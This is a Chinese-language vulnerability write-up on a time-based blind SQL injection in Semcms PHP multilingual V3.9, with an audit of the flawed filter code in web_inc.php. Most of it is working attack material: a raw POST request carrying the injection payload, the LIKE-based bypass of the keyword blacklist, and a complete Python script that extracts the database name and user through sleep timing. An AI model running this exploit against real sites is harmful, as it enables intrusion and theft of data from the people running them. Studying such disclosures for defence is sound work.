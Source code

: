 Semcms PHP(多语)版 V3.9 sql注入漏洞
===================================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms PHP(多语)版 V3.9

三、复现过程
------------

### 漏洞详情

漏洞文件为Include下的web\_inc.php文件

包

    POST /Include/web_inc.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Upgrade-Insecure-Requests: 1
    Content-Length: 64
    Content-Type: application/x-www-form-urlencoded

    languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);

基于时间的注入

### 代码审计

查看web\_inc.php的关键代码

    if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

    if(!empty($Language)){

          //网站SEO设定

          $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
          $row=mysqli_fetch_array($query);
          $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
          $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
          $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

    ......

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

    function test_input($data) { 
          $data = str_replace("%", "percent", $data);
          $data = trim($data);
          $data = stripslashes($data);
          $data = htmlspecialchars($data,ENT_QUOTES);
          return $data;

       }
    function inject_check_sql($sql_str) {

         return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
    } 

    function verify_str($str) { 

       if(inject_check_sql($str)) {

           exit('Sorry,You do this is wrong! (.-.)');
        } 

        return $str; 
    }

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

    languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);

附上脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory

    import requests

    def getDatabase(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,9):
            for j in range(97,122):
                data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j)
                    print(s)
                    break
        print('database=' + s)


    def getUser(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,21):
            for j in range(64,90):
                data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j).lower()
                    print(s)
                    break
        print('user=' + s)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/Include/web_inc.php'

        s = getDatabase(url)
        u = getUser(url)

运行截图

![](resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId26.png)

![](resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId27.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接
--------

> <https://xz.aliyun.com/t/7122>
